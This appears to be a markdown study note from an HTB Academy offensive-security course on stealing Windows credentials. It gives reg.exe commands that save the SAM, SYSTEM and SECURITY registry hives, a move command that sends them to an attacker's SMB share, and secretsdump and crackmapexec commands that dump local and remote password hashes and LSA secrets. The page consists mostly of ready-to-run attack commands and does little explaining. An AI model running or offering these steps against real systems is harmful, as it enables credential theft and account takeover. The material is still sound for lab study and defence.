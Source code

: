 # Copying SAM Registry Hives
**What we need?**<br>
-Local admin user with password from windows target

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/ffec8edc-1f07-4ad2-b0d6-ff610b1a97fb)
We can create backups of these hives using the reg.exe utility.

We have to launch cmd as admin in order to copy hives:
Commands to copy:
```bash
reg.exe save hklm\sam C:\sam.save
```
```bash
reg.exe save hklm\system C:\system.save
```
```bash
reg.exe save hklm\security C:\security.save
```
Technically we will only need hklm\sam & hklm\system, but hklm\security can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts.

## Transfer file
We can create ftp, http or smb server to transfer these files to our linux machine.

**Transfering to smb share from windows:**
`move sam.save \\IP\sharename` same for system.save and security.save

## Dumping hashes from linux using hives:

We will use secretsdump from `/usr/share/doc/python3-impacket/examples`:
```bash
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
Fromat: `Dumping local SAM hashes (uid:rid:lmhash:nthash)`


# Remote Dumping & LSA Secrets Considerations
With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network
```bash
crackmapexec smb 10.129.42.198 --local-auth -u user -p password --lsa
```
## Dumping SAM Remotely
```bash
crackmapexec smb 10.129.42.198 --local-auth -u user -p password --sam
```
